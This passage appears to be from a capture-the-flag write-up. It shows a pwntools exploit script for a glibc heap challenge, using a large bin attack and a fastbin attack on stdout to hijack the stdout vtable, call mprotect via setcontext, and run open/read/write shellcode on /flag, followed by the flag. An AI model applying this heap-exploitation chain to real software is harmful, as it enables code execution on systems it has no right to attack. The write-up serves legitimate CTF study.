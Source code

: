 ```python=
  payload += p64(setcontext) + p64(heap + 0x4df0)+"E"*0x10 + p64(magic)
  payload += cyclic(96) + p64(heap) + p64(0x21000) + p64(0)*2 + p64(7)*3 + p64(heap+0x4ea0)
  payload += p64(libc + 0x117590) + p64(heap+0x4ea8)
  payload += (asm(shellcraft.open("/flag")) +
              asm(shellcraft.read("rax",heap+0x100,0x100)) +
              asm(shellcraft.write(1,heap+0x100,"rax")) + "\xeb\xfe")
  payload = payload.ljust(0x3f0,"F")

  new(fuck[0],payload) # large bin attack success

  remove(fuck[1])
  new(fuck[1],"C"*0x58 + p64(0x421) + p64(libc + 0x1e5090)*2 + p64(heap+0x2c20)*2 + p64(0x21)*24) # fix large bin
  remove(fuck[1])
  remove(fuck[0])
  new(fuck[0],"A"*0x98)
  new(fuck[1],"D"*0x58 + p64(0xf1) + "D"*0xe0)
  remove(fuck[0])
  remove(fuck[1])
  new(fuck[1],"D"*0x58 + p64(0xf1) + p64(libc + 0x1e575b) + "D"*0xe0)
  remove(fuck[1])
  new(fuck[0],"D"*0xe8)
  payload = (p64(0x00000000fbad2887) +
              p64(libc + 0x1e57e3)*7 +
              p64(0)*7 +
              p64(0xffffffffffffffff) +
              p64(0) +
              p64(libc + 0x1e7580) +
              p64(0xffffffffffffffff) +
              p64(heap + 0x4dd0) +
              p64(heap + 0x4da0) +
              p64(0)*3 +
              p64(0x00000000ffffffff) +
              p64(0)*2 +
              p64(_IO_wfile_sync - 0x38) )
  payload = payload.ljust(0x100,"\x00")
  # Fastbin attack stdout to get stdout buffer (stdout flag is 0x000000fbxxxxxx, so 0x000000fb can use to be fastbin size).
  # Change puts stdout vtable to _IO_wfile_sync, and contorl rip & rdi
  # Jump magic and setcontext to call mportect, and finally execute shellcode
  new(fuck[1],payload[0xb:0xb+0xe8])
  r.interactive()
```
`flag{mountain_high_water_flows_16dd684fed65cc76}`


## Rev

### flash-1
